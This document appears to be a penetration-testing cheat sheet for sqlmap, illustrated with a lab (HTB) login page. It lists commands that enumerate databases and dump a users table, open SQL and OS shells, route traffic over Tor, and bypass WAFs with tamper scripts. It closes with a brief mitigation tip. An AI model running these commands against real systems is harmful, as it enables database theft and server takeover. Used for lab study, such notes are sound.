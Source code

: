 # SQLMAP

## Commands
- ```sqlmap --help```
- ```sqlmap -u [target url]```
- ```sqlmap -u [target url] --os-shell```
- ```sqlmap -u [target url] --sql-shell```

## Example
- Login page
```
sqlmap -u https://admin-portal.htb/login.php --form --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass"
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin --tables
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --columns
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --dump
```

## Advanced Switches
- Level
  - ```--dbs --level 5```
- Risk
  - ```--risk 3```
- POST 
  - ```sqlmap -u “http://testfire.net/login.jsp” --form --dbs``` 
- Technique
  - ```techniques=B --dbs```
  - ```B``` => Blind Boolean
  - ```T``` => Blind Time-based
  - ```E``` => Error-based
  - ```U``` => Union
- Tor
  - ```--tor```
- Shell
  - ```sqlmap -u “...” --sql-shell```
  - ```sqlmap -u “...” --os-shell```
- WAF Bypass 
  - Path: /usr/share/sqlmap/tamper 
  - ```--tamper=space2dash, hex2char --dbs```

## Mitigation
- Use parametrized statements, separate data from sql code

